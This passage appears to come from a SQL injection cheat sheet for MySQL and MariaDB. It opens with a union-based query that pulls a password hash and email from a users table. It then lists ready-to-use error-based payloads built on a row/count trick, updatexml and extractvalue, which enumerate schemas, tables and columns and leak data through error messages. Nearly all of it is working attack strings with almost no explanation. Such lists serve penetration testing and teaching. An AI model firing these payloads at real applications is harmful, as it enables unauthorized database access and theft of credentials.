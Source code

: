 ```sql
MariaDB [dummydb]> select author_id,title from posts where author_id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```





## MYSQL Error Based

### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```

### MYSQL Error Based - UpdateXML function

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Shorter to read:

```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```

### MYSQL Error Based - Extractvalue function

Works with `MySQL >= 5.1`

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```
